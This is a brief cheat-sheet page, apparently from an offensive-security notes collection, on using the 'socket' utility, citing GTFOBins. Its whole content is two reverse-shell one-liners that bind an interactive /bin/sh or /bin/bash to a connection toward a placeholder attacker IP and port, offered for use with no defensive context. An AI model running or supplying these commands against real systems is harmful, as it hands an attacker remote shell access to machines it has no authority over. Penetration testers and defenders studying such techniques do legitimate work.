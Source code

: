 # Socket

## 01 - One-liners

```
$ socket -qvp '/bin/sh -i' <IP> <PORT>

$ socket -qvp '/bin/bash -i' <IP> <PORT>
```

---
## References

- [GTFOBins: socket](https://gtfobins.github.io/gtfobins/socket/)